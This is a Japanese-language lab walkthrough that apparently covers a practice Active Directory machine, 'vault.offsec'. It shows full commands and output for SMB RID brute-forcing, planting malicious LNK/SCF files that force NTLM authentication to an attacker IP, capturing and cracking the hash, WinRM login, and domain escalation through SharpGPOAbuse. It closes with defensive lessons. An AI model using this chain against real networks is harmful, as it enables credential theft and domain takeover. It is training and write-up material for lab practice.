

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Windows Server 2019 |
| 難易度 | 記録なし |
| 攻撃対象 | Active Directory (SMB, Kerberos) |
| 主な侵入経路 | SMB Guest RID ブルートフォース、書き込み可能共有への SCF/LNK 配置による NTLMv2 ハッシュ窃取 |
| 権限昇格経路 | GPO 悪用 (SharpGPOAbuse) — Default Domain Policy 経由で AddLocalAdmin |

## 認証情報

```text
anirudh SecureHM
```

## 偵察

---
💡 なぜ有効か
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.198.172:53
Open 192.168.198.172:88
Open 192.168.198.172:135
Open 192.168.198.172:139
Open 192.168.198.172:389
Open 192.168.198.172:445
Open 192.168.198.172:464
Open 192.168.198.172:593
Open 192.168.198.172:636
Open 192.168.198.172:3389
Open 192.168.198.172:5985
Open 192.168.198.172:9389
```

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-20 15:28:22Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
```

## 初期侵入

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

SMB の Guest アクセスが可能だった。RID ブルートフォースでドメインユーザー `anirudh` を列挙:

```bash
netexec smb $ip -u 'guest' -p '' --rid-brute
```

```bash
SMB         192.168.198.172 445    DC               [+] vault.offsec\guest:
SMB         192.168.198.172 445    DC               500: VAULT\Administrator (SidTypeUser)
SMB         192.168.198.172 445    DC               501: VAULT\Guest (SidTypeUser)
SMB         192.168.198.172 445    DC               502: VAULT\krbtgt (SidTypeUser)
SMB         192.168.198.172 445    DC               1103: VAULT\anirudh (SidTypeUser)
```

匿名 SMB リスティングで書き込み可能な `DocumentsShare` を発見:

```bash
smbclient -L //$ip -N
```

```bash
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	DocumentsShare  Disk
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share
	SYSVOL          Disk      Logon server share
```

共有に書き込み権限があるため、ntlm_theft で NTLM 認証を強制する悪意のある SCF/LNK ファイルを生成:

```bash
python3 ~/tools/ntlm_theft/ntlm_theft.py -g all -s 192.168.45.166 -f test.lnk
```

ファイルを `DocumentsShare` に配置し、Responder を起動して NTLMv2 ハッシュをキャプチャ:

```bash
sudo responder -I tun0 -wv
```

```bash
[SMB] NTLMv2-SSP Client   : 192.168.198.172
[SMB] NTLMv2-SSP Username : VAULT\anirudh
[SMB] NTLMv2-SSP Hash     : anirudh::VAULT:87b0e379e5dca539:1B7B4B345ABB2B32B8364F10F23A7EBF:0101000000000000...
```

john で NTLMv2 ハッシュをクラック:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```bash
SecureHM         (anirudh)
```

evil-winrm で認証:

```bash
evil-winrm -i $ip -u anirudh -p SecureHM
```

```bash
*Evil-WinRM* PS C:\users\anirudh\desktop> type local.txt
48c503ff23cfdc9eea6e9b850b99283b
```

💡 なぜ有効か
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## 権限昇格

---
GPO 権限の列挙で、`anirudh` が Default Domain Policy に対して `GpoEditDeleteModifySecurity` 権限を持っていることが判明:

```bash
Get-GPPermission -Guid 31b2f340-016d-11d2-945f-00c04fb984f9 -TargetName anirudh -TargetType User
```

```bash
Trustee     : anirudh
TrusteeType : User
Permission  : GpoEditDeleteModifySecurity
Inherited   : False
```

SharpGPOAbuse を使用して、Default Domain Policy 経由で anirudh をローカル管理者に追加:

```bash
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy"
```

```bash
[+] Domain = vault.offsec
[+] Domain Controller = DC.vault.offsec
[+] GUID of "Default Domain Policy" is: {31B2F340-016D-11D2-945F-00C04FB984F9}
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
```

グループポリシーを強制更新し、メンバーシップを確認:

```powershell
gpupdate /force
net localgroup administrators
```

```bash
Members
-------------------------------------------------------------------------------
Administrator
anirudh
The command completed successfully.
```

```powershell
type c:\users\administrator\desktop\proof.txt
e736f381d5f22305fcfdd93a07d75429
```

💡 なぜ有効か
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## まとめ・学んだこと

- Guest SMB アクセスを無効化し、匿名 SID 列挙を制限して RID ブルートフォースを防ぐ。
- 非認証・低権限ユーザーに共有フォルダの書き込み権限を与えない — SCF/LNK ファイルによる NTLMv2 窃取は容易。
- GPO 権限を定期的に監査する — Default Domain Policy への `GpoEditDeleteModifySecurity` は即座にドメイン侵害につながる。
- 強力な非辞書パスワードを使用する — rockyou.txt でクラックされる NTLMv2 ハッシュは弱いパスワードポリシーを示す。
- SharpGPOAbuse スタイルの GPO 変更を監視し、予期しないローカル管理者追加をアラートする。

### Attack Flow

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。



## 参考リンク

- ntlm_theft: https://github.com/Greenwolf/ntlm_theft
- SharpGPOAbuse: https://github.com/FSecureLABS/SharpGPOAbuse
- Responder: https://github.com/lgandx/Responder
- Evil-WinRM: https://github.com/Hackplayers/evil-winrm
- NetExec: https://github.com/Pennyw0rth/NetExec
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
